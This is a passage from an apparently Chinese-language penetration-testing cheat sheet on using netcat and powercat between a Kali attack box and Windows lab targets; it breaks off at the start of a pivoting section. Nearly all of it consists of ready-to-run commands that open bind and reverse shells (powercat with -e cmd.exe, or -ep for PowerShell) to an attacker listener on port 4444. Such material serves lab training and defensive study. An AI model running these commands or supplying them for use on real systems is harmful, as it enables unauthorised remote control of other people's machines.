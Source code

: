 Kali 上的 nc 连接到靶机

    
    
    nc -v rhost rport
    
    
    nc -v 172.16.214.21 4444

靶机开启监听，等待 Kali 连接

    
    
    powercat -l -v -p lport -e cmd.exe
    
    
    powercat -l -v -p 4444 -e cmd.exe

### 反向连接

Kali 上开启监听

    
    
    nc -lvp 4444

靶机向 kali 发起连接

    
    
    powercat -c rhost -p rport -e cmd.exe
    
    
    powercat -c 172.16.214.46 -p 4444 -e cmd.exe

### 返回 powershell

攻击机上运行

    
    
    powercat -l -v -p lport
    
    
    powercat -l -v -p 4444

靶机上运行

    
    
    powercat -c rhost -p rport -v -ep
    
    
    powercat -c 172.16.214.21 -p 4444 -v -ep

### 作为跳板使用

测试环境为：

    
    
    kali            172.16.214.47  
    windows7    172.16.214.2  
    windows10    172.16.214.21

将 win7 作为跳板机，让 kali 通过 win7 连接到 windows10

在 win10 中执行以下命令
